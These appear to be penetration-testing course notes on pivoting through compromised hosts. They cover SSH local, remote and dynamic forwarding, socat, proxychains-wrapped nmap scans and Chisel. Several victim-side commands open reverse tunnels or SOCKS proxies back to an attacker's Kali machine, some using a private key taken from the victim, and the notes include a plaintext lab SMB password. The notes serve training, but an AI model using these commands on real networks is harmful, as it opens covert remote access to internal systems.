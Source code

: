 # Tunneling

##

## SSH Local Port Forwarding

{% code title="nc port scan" overflow="wrap" lineNumbers="true" %}
```
for i in $(seq 1 254); do nc -zv -w 1 172.16.50.$i 445; done
```
{% endcode %}

The below command is run on Server A to create the SSH tunnel through Server B and reach Server C.&#x20;

{% code title="the command is run on Server A" overflow="wrap" lineNumbers="true" %}
```
ssh -N -L 0.0.0.0:4455:172.16.167.217:445 database_admin@10.4.167.215
```
{% endcode %}

kali -> (Server A) 192.168.167.63 -> (Server B) 10.4.167.215->(Server C) 172.16.167.217&#x20;

Now from Kali VM we can reach Server C and access the SMB Server.

```
smbclient -p 4455 -L //192.168.50.63/ -U hr_admin --password=Welcome1234
```

So when you want to reach a port that is open only on the victim machine, but not from your attack host, you will use local port forwarding.

```
ssh -L 1234:localhost:5432 user@{target_IP}
```

### Socat

{% code title="on the victim -Running the Socat port forward command." overflow="wrap" lineNumbers="true" %}
```
socat -ddd TCP-LISTEN:2345,fork TCP:10.4.50.215:5432
```
{% endcode %}

{% code title="On the kali box - Connecting to the PGDATABASE01 PostgreSQL service and listing databases using psql, through our port forward." overflow="wrap" lineNumbers="true" %}
```
psql -h 192.168.50.63 -p 2345 -U postgres
```
{% endcode %}

##

## Reverse tunnel to attack host

UserKnownHostsFile=/dev/null and StrictHostKeyChecking=no. The first option prevents ssh from attempting to save the host key by sending the output to /dev/null. The second option will instruct ssh to not prompt us to accept the host key. Both of these options can be set via the -o flag.

```
ssh -f -N -R 1122:10.5.5.11:22 -R 13306:10.5.5.11:3306 -o "UserKnownHostsFile=/dev/nul
l" -o "StrictHostKeyChecking=no" -i /tmp/keys/id_rsa kali@10.11.0.4
```

\+ generate and use keys (page 779 PWK)

## Reverse dynamic port forwarding

newer versions of ssh support this feature

We will only need one port forwarding option, which is -R 1080. By not including a host after the port, ssh is instructed to create a SOCKS proxy on our Kali server. We also need to change the location of the private key

```
ssh -f -N -D 1080 -o "UserKnownHostsFile=/dev/null" -o "StrictHostKeyChecking=no" -i /
var/lib/mysql/.ssh/id_rsa kali@10.11.0.4
```

### Proxychains

configure proxychains on Kali to use the SOCKS proxy. We can do this by opening etc/proxychains.conf and editing the last line, specifying port 1080.

```
[ProxyList]
# add proxy here ...
# meanwile
# defaults set to "tor"
socks4 127.0.0.1 1080
```

{% hint style="info" %}
Network scanning with ProxyChains will be slow so we will start with only the top 20 ports and expand our scope if needed.

You can speed up network scanning through proxychains by modifying the timeout via the tcp\_read\_time\_out and tcp\_connect\_time\_out values in /etc/proxychains.conf. However, don’t set these too low or you will receive incorrect results.
{% endhint %}

SOCKS proxies require a TCP connection to be made and thus a half-open or SYN scan cannot be used with ProxyChains.740 Since SOCKS proxies require a TCP connection, ICMP cannot get through either and we must disable pinging with the -Pn flag.

```
kali@kali:~$ proxychains nmap --top-ports=20 -sT -Pn 10.5.5.20
```

### nmap proxychains scan

```
proxychains nmap 172.16.1.10 -sT -sV -Pn -T5 2>/dev/null

Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-01-02 22:35 EET
Nmap scan report for static-172-16-1-10.rdsnet.ro (172.16.1.10)
Host is up (0.051s latency).
Not shown: 996 closed tcp ports (conn-refused)
PORT    STATE SERVICE     VERSION
22/tcp  open  ssh         OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
80/tcp  open  http        Apache httpd 2.4.41 ((Ubuntu))
139/tcp open  netbios-ssn Samba smbd 4.6.2
445/tcp open  netbios-ssn Samba smbd 4.6.2
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

```

## PLINK.exe

from pwk pdf manual page 610. 20.3 chapter

this looks promising [https://www.pc-freak.net/blog/creating-ssh-tunnel-windows-plink/](https://www.pc-freak.net/blog/creating-ssh-tunnel-windows-plink/)

## NETSH

chapter 20.4 pwk pdf. this is used for port forwarding on Windows. You need to have SYSTEM rights on the windows box.&#x20;

## Chisel

{% embed url="https://medium.com/geekculture/chisel-network-tunneling-on-steroids-a28e6273c683" %}

{% embed url="https://github.com/jpillora/chisel" %}

###

### Chisel local port forwarding

On the attack host

```
chisel server -p 8888 -reverse
```

On the victim(windows)

```
.\chisel.exe client 10.10.14.89:8888 R:1082:localhost:4444
```

On the attack host again to connect to forwarded port

```
nc -nv 127.0.0.1 1082
```

### On attacking box/kali from previous exam

```
chisel  server -p 8000 reverse
```

### On victim from previous exam

```
chisel.exe client 192.168.49.138:8000 R:socks
```

Or as mentioned in the above document:

### On the Attack Machine <a href="#id-94ad" id="id-94ad"></a>

```
chisel server -p 3477 --socks5 --reverse
```



### On the Victim Machine <a href="#id-9a15" id="id-9a15"></a>

```
chisel client 13.37.13.37:3477 R:5000:socks
```

### Proxychains

`/etc/proxychains.conf`

![](https://miro.medium.com/max/700/1\*mhBYMO2hZA0ZM5sCgwebLQ.png)

```
socks5
```
